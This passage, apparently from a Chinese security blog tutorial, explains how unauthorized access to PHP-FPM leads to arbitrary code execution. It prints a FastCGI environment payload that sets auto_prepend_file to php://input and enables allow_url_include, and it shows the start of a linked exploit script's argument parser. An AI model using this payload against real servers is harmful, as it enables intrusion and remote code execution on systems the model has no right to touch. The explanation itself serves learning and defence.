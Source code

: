 此时，`SCRIPT_FILENAME`的值就格外重要了。因为fpm是根据这个值来执行php文件的，如果想利用PHP-FPM的未授权访问漏洞，首先就得找到一个已存在的PHP文件。

万幸的是，通常使用源安装php的时候，服务器上都会附带一些php后缀的文件。

**任意代码执行**

为什么我们控制fastcgi协议通信的内容，就能执行任意PHP代码呢？

理论上当然是不可以的，即使我们能控制`SCRIPT_FILENAME`，让fpm执行任意文件，也只是执行目标服务器上的文件，并不能执行我们需要其执行的文件。

但PHP是一门强大的语言，PHP.INI中有两个有趣的配置项，`auto_prepend_file`和`auto_append_file`。

`auto_prepend_file`是告诉PHP，在执行目标文件**之前**，先包含`auto_prepend_file`中指定的文件；`auto_append_file`是告诉PHP，在执行完成目标文件**后**，包含`auto_append_file`指向的文件。

那么就有趣了，假设我们设置`auto_prepend_file`为`php://input`，那么就等于在执行任何php文件前都要包含一遍POST的内容。所以，我们只需要把待执行的代码放在Body中，他们就能被执行了。（当然，还需要开启远程文件包含选项`allow_url_include`）





那么，我们怎么设置`auto_prepend_file`的值？

这又涉及到PHP-FPM的两个环境变量，`PHP_VALUE`和`PHP_ADMIN_VALUE`。

所以，我们最后传入如下环境变量：

```
{
    'GATEWAY_INTERFACE': 'FastCGI/1.0',
    'REQUEST_METHOD': 'GET',
    'SCRIPT_FILENAME': '/var/www/html/index.php',
    'SCRIPT_NAME': '/index.php',
    'QUERY_STRING': '?a=1&b=2',
    'REQUEST_URI': '/index.php?a=1&b=2',
    'DOCUMENT_ROOT': '/var/www/html',
    'SERVER_SOFTWARE': 'php/fcgiclient',
    'REMOTE_ADDR': '127.0.0.1',
    'REMOTE_PORT': '12345',
    'SERVER_ADDR': '127.0.0.1',
    'SERVER_PORT': '80',
    'SERVER_NAME': "localhost",
    'SERVER_PROTOCOL': 'HTTP/1.1'
    
    'PHP_VALUE': 'auto_prepend_file = php://input',
    'PHP_ADMIN_VALUE': 'allow_url_include = On'
}
```

**设置`auto_prepend_file = php://input`且`allow_url_include = On`**，然后将我们需要执行的代码放在Body中，即可执行任意代码。

# EXP

兼容Python2和Python3，代码如下：https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75 。

```python
if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Php-fpm code execution vulnerability client.')
    
    parser.add_argument('host', help='Target host, such as 127.0.0.1')
    parser.add_argument('file', help='A php file absolute path, such as /usr/local/lib/php/System.php')
    parser.add_argument('-c', '--code', help='What php code your want to execute', default='<?php phpinfo(); exit; ?>')
    parser.add_argument('-p', '--port', help='FastCGI port', default=9000, type=int)

    
   #参数，-p:端口号，默认是9000
   #-c 编码 默认<?php phpinfo(); exit; ?>
    
```